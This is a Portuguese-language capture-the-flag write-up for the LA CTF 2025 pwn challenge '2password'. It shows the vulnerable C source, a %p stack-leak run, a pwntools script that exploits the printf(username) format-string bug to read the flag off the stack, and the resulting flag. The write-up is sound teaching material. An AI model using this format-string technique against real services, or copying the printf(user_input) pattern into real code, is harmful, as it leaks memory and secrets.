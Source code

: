 # WriteUp: 2password
## Descrição do Desafio:
**Autor:** kaiphait \
**Categoria:** pwn \
**Descrição:**
> 2Password > 1Password

### Arquivos
| Arquivo | Descrição |
| ------- | --------- |
| chall | Executável. |
| chall.c | Código-fonte. |
| Dockerfile | Arquivo docker. |
| ld-linux-x86-64.so.2 | Linker da *libc* |
| libc.so.6 | *libc* |
| solve.py | Script em Python que resolve o desafio. |

> 📥 **Download:** [Arquivos](https://github.com/HawkSecUnifei/Writeups/raw/refs/heads/main/2025/LA_CTF/2password/Arquivos.zip)

## Passo a Passo da Solução
### 1. Análise dos arquivos fornecidos
Este desafio fornece tanto o executável como o código-fonte dele. Olhando para o código fonte, notamos que é um código simples, ele apenas pede para inserirmos um usuário, uma senha 1, e por fim uma senha 2, sem nenhuma possibilidade de *overflow*.

Também notamos que a **flag** não é impressa na tela em nenhum momento, porém, há uma verificação entre o conteúdo dela e a senha 2.

{% code title="chall.c" overflow="wrap" numberLines="true" %}

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void readline(char *buf, size_t size, FILE *file) {
  if (!fgets(buf, size, file)) {
    puts("wtf");
    exit(1);
  }
  char *end = strchr(buf, '\n');
  if (end) {
    *end = '\0';
  }
}

int main(void) {
  setbuf(stdout, NULL);
  printf("Enter username: ");
  char username[42];
  readline(username, sizeof username, stdin);
  printf("Enter password1: ");
  char password1[42];
  readline(password1, sizeof password1, stdin);
  printf("Enter password2: ");
  char password2[42];
  readline(password2, sizeof password2, stdin);
  FILE *flag_file = fopen("flag.txt", "r");
  if (!flag_file) {
    puts("can't open flag");
    exit(1);
  }
  char flag[42];
  readline(flag, sizeof flag, flag_file);
  if (strcmp(username, "kaiphait") == 0 &&
      strcmp(password1, "correct horse battery staple") == 0 &&
      strcmp(password2, flag) == 0) {
    puts("Access granted");
  } else {
    printf("Incorrect password for user ");
    printf(username);
    printf("\n");
  }
}
```

{% endcode %}

O interessante desse código, é que no final dele, caso uma das verificações de usuário e senha tenha falhado, é impresso o `username` por meio da função `printf(username)`. E isso é uma vulnerabilidade de *format string*, porque dessa forma nós podemos inserir formatos na variável do usuário que imprimirão o conteúdo da pilha, e como o conteúdo da **flag** é carregado para uma variável local antes da verificação, ela estará na pilha.

### 2. Exploit
A solução é bem simples, devemos encontrar a posição na qual a **flag** começa a aparecer na pilha e com isso vazar seu conteúdo. Executando o código, e digitando vários caracteres de formato, encontramos a **flag** na posição 6 da pilha.

{% hint style="info" %}

**Nota:** No meu caso, o arquivo **flag.txt** contém o valor `ABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBA`, por isso que a saída na pilha é um monte de `0x42` e `0x41`.

{% endhint %}

```bash
Enter username: %p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
Enter password1: NADA
Enter password2: NADA
Incorrect password for user 0x7ffc38b83a20-(nil)-(nil)-0x1c-(nil)-0x4242424242424241-0x4242424242424242-0x4242424242424242-0x4242424242424242-0x4242424242424242-0x1800041
```

{% code title="solve.py" overflow="wrap" numberLines="true" %}

```py
from pwn import *

elf = context.binary = ELF("./chall")
p = remote("ip", porta)
#p = process()

# Montando payload, flag começa no 6.
payload = ""
for i in range(6, 9):
    payload += f"%{i}$p-"
payload = payload.encode()

# Enviando payload.
p.sendlineafter(b"username:", payload)
p.sendlineafter(b"password1:", b"CCCCCCCC")
p.sendlineafter(b"password2:", b"CCCCCCCC")

# Montando a flag.
p.recvuntil(b"user")
flag = ""
flag_leak = p.recvline().decode().split("-")[:-1]

flag = b''.join(
    int(x.strip(), 16).to_bytes((len(x.strip()) - 2 + 1) // 2, 'little')
    for x in flag_leak
).decode(errors='ignore')

print(flag)
```

{% endcode %}

{% hint style="info" %}

**Nota:** O valor 9 na instrução `range(6, 9)` foi encontrado depois de vazar a **flag** pela primeira vez, inicialmente o valor era 11, já que no código-fonte a **flag** era carregada para uma *string* de 42 caracteres.

{% endhint %}

### Flag
`lactf{hunter2_cfc0xz68}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)